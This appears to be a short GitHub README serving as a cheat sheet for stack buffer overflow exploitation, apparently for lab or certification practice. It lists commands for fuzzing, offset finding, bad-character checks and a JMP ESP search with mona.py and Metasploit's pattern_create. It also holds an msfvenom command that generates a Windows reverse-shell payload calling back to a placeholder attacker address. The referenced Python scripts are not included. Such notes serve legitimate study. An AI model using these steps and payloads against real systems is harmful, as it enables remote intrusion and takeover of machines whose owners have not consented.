 
# Buffer Overflow Exploitation

#### fuzzer.py 
#### 
```
python3 fuzzer.py
```

#### offset.py
```
python3 offset.py
```

#### badchar.py
```
python3 badchar.py
```

#### exolpotbof.py
```
python3 exploitbof.py
```


create pattern :  
``` /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l < largest number of bytes that were sent > ```

create payload metasploit : 
 ``` msfvenom -p windows/shell_reverse_tcp LHOST=<Your IP > LPORT=6666 EXITFUNC=thread -b "< badchar >" -f py -v "shellcode" ```

## Mona commands :


````
!mona config -set workingfolder c:\mona\%p
````

```
!mona findmsp -distance < largest number of bytes that were sent with fuzzer.py  >
```
#### Finding Bad Characters
```
!mona bytearray -b "\x00"
```

```
!mona compare -f C:\mona\<your exe file>\bytearray.bin -a < address ESP >
```


#### Finding a Jump Point
```
!mona jmp -r esp
```
